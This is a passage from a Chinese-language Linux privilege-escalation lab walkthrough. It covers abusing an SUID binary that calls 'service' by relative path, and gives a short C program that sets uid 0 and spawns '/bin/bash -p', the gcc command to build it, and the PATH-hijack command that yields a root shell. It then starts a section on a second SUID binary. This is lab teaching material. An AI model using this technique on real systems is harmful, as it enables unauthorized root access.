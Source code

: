 ```shell
/usr/local/bin/suid-env
```

![image-20221011005751394](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011005751394.png)

在该文件上运行strings命令，查找文件内容中的可打印字符并打印出字符串:

```shell
strings /usr/local/bin/suid-env
```

![image-20221011005731567](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011005731567.png)

观察strings命令打印出来的内容，最后一行(“ service apache2 start”)表示调用了service可执行文件来启动 web 服务器，但是此处没有使用service可执行文件的完整路径(/usr/sbin/service)。

我们可以伪造一个同名service可执行文件，并且将这个伪造文件对应的目录添加到PATH环境变量值中，因为后添加的目录会在PATH变量值的第一个位置，所以伪造的文件能够被首先执行到。（这是因为真正的service 文件在执行时，没有指定完整路径）

我们先创建一个service.c，再把它编译成可执行文件service ，我们来看一下的service.c的内容：

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
//很明显，service.c的代码效果会产生一个bash shell
```

现在将/home/user/tools/suid/service.c 编译成名为 service 的可执行文件（编译完成后，service 文件会出现在当前的工作目录）:

```shell
gcc -o service /home/user/tools/suid/service.c
#编译得到的service在/home/usr目录下 
```

将当前工作目录(或新的service可执行文件所在的目录)前置添加到PATH 变量中，并同时执行/usr/local/bin/suid-env，成功获得 root shell:：

```shell
PATH=.:$PATH /usr/local/bin/suid-env
#这个命令前半部分会在PATH变量值的开头部分添加一个路径, " . "表示当前工作目录的路径
#这个命令的后半部分会执行/usr/local/bin/suid-env文件，该文件执行时会找到当前工作目录下的伪造service文件并执行它
```

![image-20221011015237229](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011015237229.png)

## SUID/SGID 可执行文件提权-滥用 Shell 特性(# 1)

SUID可执行文件/usr/local/bin/suid-env2与上一小节的/usr/local/bin/suid-env 功能相同，只是它使用service可执行文件(/usr/sbin/service)的绝对路径来启动 apache2 Web 服务器。

![image-20221011193848967](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221011193848967.png)

查看suid-env2文件内容中的字符串以验证其功能:

```shell
strings /usr/local/bin/suid-env2
```
